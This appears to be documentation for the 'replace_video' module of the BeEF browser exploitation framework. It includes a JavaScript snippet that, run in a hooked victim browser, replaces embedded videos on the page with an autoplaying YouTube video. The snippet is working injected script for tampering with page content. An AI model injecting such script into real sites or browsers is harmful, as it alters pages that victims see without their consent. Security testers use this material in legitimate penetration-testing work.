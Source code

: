 ## Summary

* **Objective**: Replace an embedded video with our own
* **Authors**: Yori Kvitchko, antisnatchor
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/hooked_domain/replace_video)

## Internal Working

By default, this replaces all `<embed>` tags to a youtube video of rickroll.

An element is selected using the jQuery selector notation

```js

$j('<%= @jquery_selector %>').each(function(){
            var width = $j(this).css('width');
            var height = $j(this).css('height');
            $j(this).replaceWith('<embed src="http://www.youtube.com/v/<%= @youtube_id %>?fs=1&amp;hl=en_US&amp;autoplay=1" type="application/x-shockwave-flash" allowscriptaccess="always" allowfullscreen="true" width="' + width + '" height="' + height + '">');
});

```

## Feedback

